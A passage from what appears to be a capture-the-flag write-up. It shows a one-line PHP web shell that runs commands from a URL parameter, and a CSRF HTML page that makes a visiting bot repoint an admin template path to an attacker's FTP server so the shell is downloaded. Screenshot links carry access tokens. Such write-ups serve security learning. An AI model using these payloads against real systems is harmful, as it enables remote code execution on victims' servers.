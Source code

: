  <br>

`login.php`

```php
<?php echo system($_GET['cmd']); ?>
```
<br>

Then host a malicious file that change the template path to the file that we host on FTP server. Once the bot click, it then change the path, and connect to FTP server to download the malicious `login.php`. 

`test.html`

```jsx
<!DOCTYPE html>
<html>
<head>
    <title>CSRF Exploit - Update Template Path</title>
</head>
<body>
    <h1>Updating settings, please wait...</h1>
    <script>
        fetch("http://127.0.0.1:9000/api/admin/appSettings", {
            method: "POST",
            mode: "no-cors",
            headers: {
                "Content-Type": "application/json"
            },
            body: JSON.stringify({"template_path": "ftp://test:test@{ip}:2121"})
        });
    </script>
</body>
</html>

```



<br>

![setupngrok](https://raw.githubusercontent.com/Tr0x69/old-tr0x69/refs/heads/main/assets/images/htbapocalypse/image3.png?token=GHSAT0AAAAAACV5LZNGPQZJI2VAIMCXTKZY2FPKSOQ)

<br>

![sendpost](https://raw.githubusercontent.com/Tr0x69/old-tr0x69/refs/heads/main/assets/images/htbapocalypse/image4.png?token=GHSAT0AAAAAACV5LZNHQQ57XCJ2U74F6VRW2FPKSZA)


<br>

![flag](https://raw.githubusercontent.com/Tr0x69/old-tr0x69/refs/heads/main/assets/images/htbapocalypse/image5.png?token=GHSAT0AAAAAACV5LZNGBEPQ7GTJDVE6NE3I2FPKS6Q)